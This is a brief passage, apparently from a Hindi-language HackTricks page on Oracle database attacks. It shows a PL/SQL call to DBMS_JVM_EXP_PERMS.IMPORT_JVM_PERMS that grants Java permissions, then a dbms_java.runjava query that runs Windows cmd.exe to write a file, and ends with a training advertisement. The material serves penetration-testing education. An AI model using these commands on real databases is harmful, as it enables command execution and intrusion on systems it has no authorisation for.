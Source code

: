 ```text
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/

PL/SQL procedure successfully completed.
```
अब जब आपके पास Java प्रक्रियाओं को कॉल करने के लिए अधिकार हैं, आप Windows इंटरप्रेटर से प्रतिक्रिया प्राप्त कर सकते हैं और कुछ निष्पादित कर सकते हैं:
```text
SQL&gt; select dbms_java.runjava(‘oracle/aurora/util/Wrapper c:\\windows\\system32\\cmd.exe /c echo 123 &gt;c:\\hack’)from dual;
```
<details><summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>
